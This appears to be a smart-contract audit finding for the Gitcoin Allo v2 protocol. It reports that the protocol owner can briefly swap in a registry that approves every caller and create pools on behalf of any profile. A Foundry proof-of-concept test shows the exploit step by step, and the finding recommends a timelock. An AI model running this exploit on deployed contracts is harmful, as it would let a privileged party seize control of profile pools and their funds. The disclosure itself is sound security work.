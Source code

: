Urban Strawberry Monkey

high

# Protocol owner can create pools on behalf of any profile
A protocol vulnerability allows the Allo owner to create pools on behalf of profiles.

This vulnerability can be easily exploited by temporarily substituting the protocol registry with a malicious one within a single transaction.

According to [the project documentation](https://docs.allo.gitcoin.co/overview/project-registry#project-profiles), project profiles are essential as they represent on-chain identities capable of receiving funds, receiving attestations, or holding soul-bound tokens. Therefore, enabling a malicious actor to create a pool on behalf of a profile ID is a highly undesirable scenario.

## Vulnerability Detail
Only profile owner or members can create pools on behalf of a project profile. This is enforced via check at the beginning of the `_createPool()` function in `Allo.sol`:

https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/core/Allo.sol#L424

The check is made via a call to the `registry` to ensure that `msg.sender` is permissioned to create a pool. However, there's a vulnerability where a malicious protocol owner could easily swap out the protocol registry temporarily within a single transaction. This loophole allows them to create a new pool on behalf of any given profile:

https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/core/Allo.sol#L213-L215

Notably, the changes made through the updateRegistry() function take immediate effect and do not require approvals or a timelock mechanism, making this attack pretty straightforward to execute.

## Impact
The protocol owner has the ability to create pools on behalf of any profile and take ownership of these pools. This control allows them to govern allocations and distributions within these pools.

## Code Snippet
I have created a simple PoC which demonstrates how the attack could be performed. Just create a new file `test/foundry/core/MaliciousAlloOwnerCanCreatePool.t.sol` and put the following content in it.

Use `forge test -vvvv --match-test test_maliciousProtocolOwnerCreatesPoolOnBehalfOfProfile` to run the PoC:

```solidity
// SPDX-License-Identifier: AGPL-3.0-only
pragma solidity ^0.8.19;

import "forge-std/Test.sol";

import {Ownable} from "openzeppelin-contracts/contracts/access/Ownable.sol";
import {IAllo} from "../../../contracts/core/interfaces/IAllo.sol";
import {IStrategy} from "../../../contracts/core/interfaces/IStrategy.sol";
import {IRegistry} from "../../../contracts/core/interfaces/IRegistry.sol";
import {AlloTest} from "./Allo.t.sol";
import {MockStrategy} from "../../utils/MockStrategy.sol";

contract MaliciousAlloOwnerCanCreatePool is AlloTest {

    function setUp() public override {
        super.setUp();
    }

    function test_maliciousProtocolOwnerCreatesPoolOnBehalfOfProfile() public {
        // As per AlloTest#setUp(), local() is the Allo owner. Executing all subsequent txns as allow owner.
        vm.startPrank(local()); 

        // Save the address of the original registry, we would later update back to it
        IRegistry originalRegistry = allo().getRegistry();

        // Deploy a malicious registry and update allo to use it
        MaliciousRegistry maliciousRegistry = new MaliciousRegistry();
        allo().updateRegistry(address(maliciousRegistry));
        
        // Deploy a malicious strategy. Would use a MockStrategy for this PoC for simplicity
        // But essentially we could use any implementation that allocates and distributes in any arbitrary way
        address maliciousStrategy = address(new MockStrategy(address(allo())));

        // Create a pool on behalf of a profile.
        // We would use profile1_id() which is a valid profile ID registered in the original registry
        // (see RegistrySetup#__RegistrySetupFull())
        address[] memory noPoolManagersPlease = new address[](0);
        uint256 poolId = allo().createPoolWithCustomStrategy(profile1_id(), maliciousStrategy, "0x", address(token), 0, metadata, noPoolManagersPlease);

        // Change back registry to the original one
        allo().updateRegistry(address(originalRegistry));
        
        // Assert the protocol owner is the pool admin
        assertEq(true, allo().isPoolAdmin(poolId, local()));

        // Let's also show that local() is not an owner or a memeber of profile1 in the registry
        // Thus they should *NOT* be able to create pools on behalf of profile1.
        assertEq(false, originalRegistry.isOwnerOrMemberOfProfile(profile1_id(), local()));

        vm.stopPrank();
    }
}

contract MaliciousRegistry {

    function isOwnerOrMemberOfProfile(bytes32 _profileId, address _account) external view returns (bool) {
        return true;
    }
}
```

## Tool used

Manual Review

## Recommendation
- Consider using a timelock mechanism when updating critical protocol addresses that have a critical impact on the protocol (such as the registry);